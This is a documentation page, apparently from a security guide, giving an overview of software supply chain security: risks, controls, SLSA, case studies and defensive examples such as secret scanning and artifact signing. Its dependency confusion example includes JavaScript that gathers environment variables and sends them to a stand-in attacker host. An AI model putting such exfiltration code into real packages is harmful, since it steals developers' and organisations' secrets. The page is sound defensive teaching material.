



# Overview of Software Supply Chain Security

<div class="secure-component">
<span class="security-badge badge-info">FOUNDATIONAL CONCEPTS</span>

Software supply chain security encompasses the processes, controls, and technologies designed to protect the integrity, security, and authenticity of software throughout its development lifecycle—from source code creation to production deployment.
</div>

## The Evolution of Software Supply Chain Security

The landscape of software supply chain security has undergone dramatic changes as development practices have evolved:



These changes have dramatically increased the attack surface that organizations must secure:

- **More dependencies**: Average enterprise app now includes 500+ third-party components
- **Faster release cycles**: From yearly releases to multiple daily deployments
- **Distributed development**: Global teams and open source contributors
- **Complex build chains**: Multi-stage pipelines with numerous tools and integrations
- **Multiple deployment targets**: On-prem, cloud, edge, and hybrid environments

## The Modern Software Supply Chain Risk Landscape

<div class="security-grid" markdown="1">
<div class="security-grid-item security-grid-item-main" markdown="1">

### Key Concepts and Components

1. **Dependencies**: Modern software applications rely on an extensive network of external libraries, frameworks, and components. These dependencies form a complex graph that represents potential security risks if not properly managed.

2. **Software Bill of Materials (SBOM)**: An inventory of all software components, their relationships, and metadata used to build an application. SBOMs provide transparency and traceability throughout the supply chain.

3. **Threat Modeling**: A systematic approach to identifying potential threats and vulnerabilities in the software supply chain, enabling organizations to prioritize security measures based on risk assessment.

4. **Secure Development Lifecycle (SDL)**: Integration of security practices throughout the development process, from design to deployment and maintenance.

5. **Artifact Provenance**: Verifiable records of where, when, and how software components were built, providing evidence of the integrity and authenticity of artifacts.

6. **Secure Build and CI/CD Systems**: Tools and processes that ensure the integrity of build environments and automation systems used to compile, test, and deploy code.

7. **Trust Distribution and Verification**: Mechanisms for establishing and verifying trust in software components and their sources, often using cryptographic signatures.

</div>

<div class="security-grid-item security-grid-item-side" markdown="1">
<div class="security-info-box" markdown="1">

**Critical Statistics**

- 64% of organizations experienced a software supply chain attack in 2022¹
- The average time to detect a software supply chain breach is 287 days²
- Software supply chain attacks increased by 742% from 2019-2022³
- 98% of organizations use open source components in their code base⁴
- 76% of application code now comes from open source and third-party components⁵

*¹Anchore, ²IBM Security, ³Sonatype, ⁴Synopsys, ⁵Veracode*

</div>
</div>
</div>

### Why Supply Chain Security Matters

The importance of software supply chain security is paramount for several compelling reasons:

1. **Cascading Impact**: A single compromised component can affect thousands of downstream applications and organizations.

2. **Expanding Attack Surface**: Modern development practices have dramatically increased potential entry points for attackers.

3. **Sophisticated Adversaries**: Nation-states and criminal organizations deliberately target supply chains as efficient attack vectors.

4. **Regulatory Compliance**: Emerging regulations like the US Executive Order on Cybersecurity (14028) and EU Cyber Resilience Act mandate supply chain security measures.

5. **Business Risk**: Supply chain compromises can result in substantial financial losses, reputational damage, and liability issues.

<div class="secure-component">
<span class="security-badge badge-warning">CASE STUDY</span>

<strong>The SolarWinds Attack (2020)</strong>

Attackers inserted a backdoor into SolarWinds' build system, which was then distributed to ~18,000 organizations via signed updates. The attack remained undetected for months and impacted numerous government agencies and Fortune 500 companies.

<strong>Key Lessons:</strong>
<ul>
<li>Even signed code can be compromised if the build system is breached</li>
<li>Traditional security controls failed to detect the sophisticated attack</li>
<li>The cascading impact affected organizations far beyond the initial target</li>
</ul>
</div>

## Comprehensive Software Supply Chain Security Model

<div class="security-grid" markdown="1">
<div class="security-grid-item security-grid-item-main" markdown="1">

The software supply chain can be viewed as a series of interconnected stages, each with its own security requirements and risks:



Each stage presents unique security challenges and requires specific controls:

</div>

<div class="security-grid-item security-grid-item-side" markdown="1">
<div class="security-info-box" markdown="1">

**Supply Chain Attack Examples**

- **Source:** Codecov bash uploader compromise (2021)
- **Dependencies:** event-stream malicious package (2018)
- **Build:** SolarWinds Orion (2020)
- **Distribution:** NotPetya attack via M.E.Doc updates (2017)
- **Deployment:** Kaseya VSA ransomware attack (2021)

</div>
</div>
</div>

### 1. Source Code and Development Phase

The beginning of the supply chain encompasses the writing, storing, and management of source code, including:

<div class="security-table">
<table>
<thead>
<tr>
<th>Component</th>
<th>Security Risks</th>
<th>Key Controls</th>
</tr>
</thead>
<tbody>
<tr>
<td>Source Code Repositories</td>
<td>
  • Unauthorized access<br>
  • Malicious code injection<br>
  • Leaked secrets in code
</td>
<td>
  • Repository access controls<br>
  • Branch protection rules<br>
  • Signed commits<br>
  • Secret scanning
</td>
</tr>
<tr>
<td>External Dependencies</td>
<td>
  • Vulnerable libraries<br>
  • Malicious packages<br>
  • Typosquatting attacks<br>
  • Dependency confusion
</td>
<td>
  • Dependency lockfiles<br>
  • Vulnerability scanning<br>
  • Private artifact repositories<br>
  • Dependency review
</td>
</tr>
<tr>
<td>Development Environment</td>
<td>
  • Developer credential theft<br>
  • Compromised toolchains<br>
  • IDE exploits
</td>
<td>
  • Endpoint security<br>
  • Multi-factor authentication<br>
  • Updated development tools<br>
  • Environment isolation
</td>
</tr>
</tbody>
</table>
</div>

#### Example: Source Code Protection with GitGuardian Pre-Commit Hook

```bash
# Client-side pre-commit hook to prevent secrets from being committed
cat > .git/hooks/pre-commit << 'EOL'
#!/bin/bash

# Check for secrets in staged files
if command -v gitleaks &> /dev/null; then
  gitleaks protect --staged -v

  if [ $? -eq 1 ]; then
    echo "Error: Potential secrets found in commit"
    echo "Please remove any API keys, tokens, or credentials"
    exit 1
  fi
fi
EOL
chmod +x .git/hooks/pre-commit
```

### 2. Build and CI/CD Systems

The build phase transforms source code into deployable artifacts, presenting unique security challenges:

<div class="security-grid" markdown="1">
<div class="security-grid-item security-grid-item-main" markdown="1">

#### Key Security Controls for Build Systems

1. **Isolated Build Environments**
   - Use ephemeral, containerized build environments
   - Create isolated networks for build processes
   - Implement principle of least privilege for builds

2. **Reproducible Builds**
   - Ensure deterministic build outputs
   - Lock all build tool versions
   - Document build environment specifications

3. **Build Provenance**
   - Generate build metadata (who, what, when, where)
   - Store cryptographically signed build attestations
   - Implement in-toto framework for build integrity

4. **Pipeline Security**
   - Separate pipeline credentials from developer access
   - Review and approve pipeline configuration changes
   - Implement CI/CD infrastructure as code with versioning

#### Example: GitHub Actions Workflow with Provenance

```yaml
name: Build with Provenance

on:
  push:
    branches: [ main ]

jobs:
  build:
    permissions:
      id-token: write  # Required for OIDC token generation
      contents: read

    runs-on: ubuntu-latest
    
    steps:
      - uses: actions/checkout@v3
      
      - name: Set up JDK 17
        uses: actions/setup-java@v3
        with:
          java-version: '17'
          distribution: 'temurin'
          
      - name: Build with Maven
        run: mvn -B package --file pom.xml
        
      - name: Generate provenance
        uses: slsa-framework/slsa-github-generator@v1
        with:
          artifact-path: target/*.jar
```

</div>

<div class="security-grid-item security-grid-item-side" markdown="1">
<div class="security-info-box" markdown="1">

**Build System Best Practices**

- Verify build tool integrity before execution
- Run builds in ephemeral environments with no internet access
- Scan build artifacts for vulnerabilities and malware
- Use a dedicated service account for build operations
- Implement strict code review for build configuration changes
- Compare build outputs with expected hash values
- Enforce two-person review for critical build changes

</div>
</div>
</div>

### 3. Distribution and Storage

Once artifacts are created, they must be stored and distributed securely:

- **Artifact Signing**: Cryptographically sign all artifacts to verify their authenticity and integrity
- **Access Control**: Implement strict access controls for artifact repositories
- **Immutable Artifacts**: Enforce immutability to prevent tampering after creation
- **Version Control**: Maintain clear versioning and avoid mutable references (e.g., "latest" tags)
- **Vulnerability Scanning**: Regularly scan artifacts for vulnerabilities before distribution

#### Example: Secure Artifact Distribution with Cosign

```bash
# Generate a key pair for signing
cosign generate-key-pair

# Sign a container image
cosign sign --key cosign.key myregistry.io/myapp:1.0.2

# Verify an image before deployment
cosign verify --key cosign.pub myregistry.io/myapp:1.0.2

# Attach SBOM to the image
cosign attach sbom --sbom sbom.spdx.json myregistry.io/myapp:1.0.2
```

### 4. Deployment and Runtime

The final phase of the supply chain involves deploying artifacts to production environments:

<div class="security-table">
<table>
<thead>
<tr>
<th>Security Control</th>
<th>Implementation</th>
</tr>
</thead>
<tbody>
<tr>
<td>Artifact Verification</td>
<td>Verify signatures and provenance before deployment</td>
</tr>
<tr>
<td>Secure Configuration</td>
<td>Separate application code from environment-specific configuration</td>
</tr>
<tr>
<td>Least Privilege</td>
<td>Run applications with minimal required permissions</td>
</tr>
<tr>
<td>Immutable Infrastructure</td>
<td>Deploy using immutable infrastructure patterns</td>
</tr>
<tr>
<td>Runtime Protection</td>
<td>Implement application-level security monitoring and protection</td>
</tr>
<tr>
<td>Secure Update Mechanism</td>
<td>Establish secure processes for updating deployed software</td>
</tr>
</tbody>
</table>
</div>

## Common Attack Vectors

<div class="secure-component">
<span class="security-badge badge-vulnerable">SECURITY RISKS</span>

Software supply chain attacks can target multiple points in the pipeline, with attackers seeking the path of least resistance to maximize impact.

```mermaid
graph TD
    classDef attack fill:#e74c3c,stroke:#333,stroke-width:1px,color:white
    classDef target fill:#3498db,stroke:#333,stroke-width:1px,color:white
    
    A[Supply Chain<br>Attack Vectors]
    
    A --> B[Source Code<br>Compromise]:::attack
    B --> B1[Stolen Developer<br>Credentials]:::attack
    B --> B2[Direct Repository<br>Access]:::attack
    B --> B3[Malicious<br>Pull Requests]:::attack
    
    A --> C[Dependency<br>Attacks]:::attack
    C --> C1[Typosquatting]:::attack
    C --> C2[Dependency<br>Confusion]:::attack
    C --> C3[Malicious<br>Package Updates]:::attack
    
    A --> D[Build System<br>Compromise]:::attack
    D --> D1[CI Server<br>Access]:::attack
    D --> D2[Build Tool<br>Hijacking]:::attack
    D --> D3[Build Script<br>Modification]:::attack
    
    A --> E[Artifact<br>Compromise]:::attack
    E --> E1[Repository<br>Access]:::attack
    E --> E2[Man-in-the-Middle]:::attack
    E --> E3[Signature<br>Forgery]:::attack
    
    A --> F[Deployment<br>Attacks]:::attack
    F --> F1[Environment<br>Poisoning]:::attack
    F --> F2[Secret<br>Exfiltration]:::attack
    F --> F3[Configuration<br>Tampering]:::attack
    
    click B1 "#attack-examples" "View attack examples"
    click C2 "#attack-examples" "View attack examples"
    click D1 "#attack-examples" "View attack examples"
    
    style A stroke-width:3px
```

</div>



### Attack Examples {#attack-examples}

<div class="security-grid" markdown="1">
<div class="security-grid-item security-grid-item-main" markdown="1">

#### Dependency Confusion Attack

A dependency confusion attack exploits how package managers resolve dependencies when the same package name exists in both public and private repositories:

1. Attacker identifies internal package names used by a target organization
2. Attacker publishes malicious packages with the same names on public repositories
3. Build systems preferentially pull the public (malicious) packages that have higher version numbers
4. Malicious code is executed during the build process or at runtime

**Prevention:**
- Use namespace prefixes for internal packages
- Configure package managers to always prefer private repositories
- Implement verification of package provenance
- Use dependency lockfiles to pin exact versions

</div>

<div class="security-grid-item security-grid-item-side" markdown="1">
```javascript
// Malicious package example (dependency confusion)
// Published on public npm with a company's internal package name
console.log("Package loaded...")

// Exfiltrate sensitive data
const payload = {
  env: process.env,
  cwd: process.cwd(),
  files: // List accessible files
}

// Send data to attacker-controlled server
fetch('https://attacker.example/collect', {
  method: 'POST',
  body: JSON.stringify(payload)
})
```

</div>
</div>

#### SolarWinds Supply Chain Attack

The SolarWinds attack illustrates how compromising build systems can have devastating consequences:

1. Attackers gained access to SolarWinds' development environment
2. Malicious code was injected into the Orion product build process
3. The backdoor was distributed via legitimate, signed software updates
4. Approximately 18,000 organizations installed the compromised update
5. Attackers gained persistent access to selected high-value targets

**Key Learnings:**
- Even signed code can be compromised if the build system is breached
- Need for "build provenance" to verify how artifacts were created
- Importance of runtime monitoring to detect unusual behavior
- Value of zero-trust approaches even for "trusted" vendor code

## Protection Strategies

A comprehensive protection strategy must address security at each phase of the software supply chain:

<div class="security-grid" markdown="1">
<div class="security-grid-item security-grid-item-main" markdown="1">

### 1. Source Protection

- **Enforce strong authentication** (MFA, SSO) for source repositories
- **Implement branch protection** requiring code reviews and signed commits
- **Scan code for vulnerabilities** during development and before merging
- **Automate secret detection** to prevent credential leakage
- **Apply principle of least privilege** for repository access

### 2. Dependency Security

- **Maintain a dependency inventory** with a comprehensive SBOM
- **Continuously scan for vulnerabilities** in dependencies
- **Validate dependency integrity** using checksums and signatures
- **Implement dependency pinning** to prevent unexpected updates
- **Establish policies** for dependency addition and review

### 3. Build System Security

- **Isolate build environments** using containers or VMs
- **Implement reproducible builds** with deterministic outputs
- **Generate and verify build provenance** to track origin
- **Secure CI/CD pipeline configuration** as code with version control
- **Apply defense-in-depth** to protect build infrastructure

### 4. Artifact Security

- **Sign all artifacts** using secure cryptographic methods
- **Verify signatures** before deployment
- **Maintain artifact metadata** including provenance information
- **Implement immutable artifacts** to prevent tampering
- **Scan artifacts** for vulnerabilities and malware

</div>

<div class="security-grid-item security-grid-item-side" markdown="1">
<div class="security-info-box" markdown="1">

**Maturity Model for Supply Chain Security**

**Level 1: Basic**
- Source code version control
- Vulnerability scanning
- Basic access controls
- Manual build processes

**Level 2: Managed**
- SBOM generation
- MFA for source repositories
- Automated dependency scanning
- Basic build provenance

**Level 3: Defined**
- Signed commits and artifacts
- Reproducible builds
- Isolated build environments
- Artifact integrity verification

<p><strong>Level 4: Optimized</strong></p>
<ul>
<li>Comprehensive build provenance</li>
<li>Hermetic builds</li>
<li>Automated policy enforcement</li>
<li>Full chain of custody tracking</li>
</ul>
</div>
</div>
</div>

### 5. Deployment Security

- **Verify artifact authenticity** before deployment
- **Implement least privilege** for deployment environments
- **Separate deployment credentials** from other environment access
- **Automate security checks** as part of deployment pipelines
- **Monitor deployment configurations** for unauthorized changes

## Implementing SLSA Framework

The [Supply-chain Levels for Software Artifacts (SLSA)](../best-practices/standards.md) framework provides a maturity model for supply chain security.



!!! tip "Incremental Implementation"
    Start by documenting your current supply chain (Level 1), then implement basic tamper protection (Level 2). As your organization's capabilities mature, move toward stronger build security (Level 3) and eventually fully hardened builds (Level 4).

## Getting Started

To begin securing your software supply chain:

### 1. Inventory and Assessment

- **Map your supply chain** including all components, tools, and processes
- **Identify critical assets** that require enhanced protection
- **Assess current security posture** against frameworks like SLSA
- **Determine high-risk areas** based on threat modeling

### 2. Implement Foundational Controls

- **Source control access** with MFA and strong authentication
- **Dependency scanning** integrated into developer workflows
- **Basic build security** with isolated environments
- **Artifact signing** for critical components
- **Deployment verification** of artifact integrity

### 3. Develop a Roadmap

- **Prioritize improvements** based on risk and impact
- **Define measurable goals** for supply chain security
- **Allocate resources** appropriately to address gaps
- **Create implementation timelines** with clear milestones
- **Establish monitoring and metrics** to track progress

### 4. Build Security Culture

- **Educate development teams** about supply chain risks
- **Integrate security into developer workflows** rather than adding friction
- **Establish clear policies** for component selection and validation
- **Create feedback loops** to continuously improve security posture

<div class="secure-component">
<span class="security-badge badge-info">REMEMBER</span>

Software supply chain security is not a one-time project but an ongoing process that requires continuous improvement as threats evolve and development practices change. The goal is to build security into every phase of software development and deployment, creating layers of protection that reduce risk and increase resilience against attacks.
</div>

## Further Reading

- [CISA Securing the Software Supply Chain](https://www.cisa.gov/sites/default/files/publications/ESF_SECURING_THE_SOFTWARE_SUPPLY_CHAIN_DEVELOPERS.PDF)
- [NIST Secure Software Development Framework (SSDF)](https://csrc.nist.gov/Projects/ssdf)
- [Supply-chain Levels for Software Artifacts (SLSA)](https://slsa.dev/)
- [in-toto: A framework to secure the integrity of software supply chains](https://in-toto.io/)
- [Sigstore: A new standard for signing, verifying, and protecting software](https://www.sigstore.dev/)